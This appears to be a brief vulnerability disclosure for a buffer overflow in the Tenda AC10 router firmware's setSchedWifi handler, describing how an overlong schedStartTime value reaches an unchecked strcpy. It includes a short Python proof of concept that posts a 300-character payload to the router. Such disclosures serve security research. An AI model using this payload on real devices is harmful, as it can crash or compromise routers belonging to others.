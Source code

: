 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/setSchedWifi

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](4.png)

get value from schedStartTime ,and set enable = 0

![](3.png)

as follow we set, get into line 73, call strcpy, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/setSchedWifi"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'schedStartTime': payload, 'schedWifiEnable': 0})
``` 
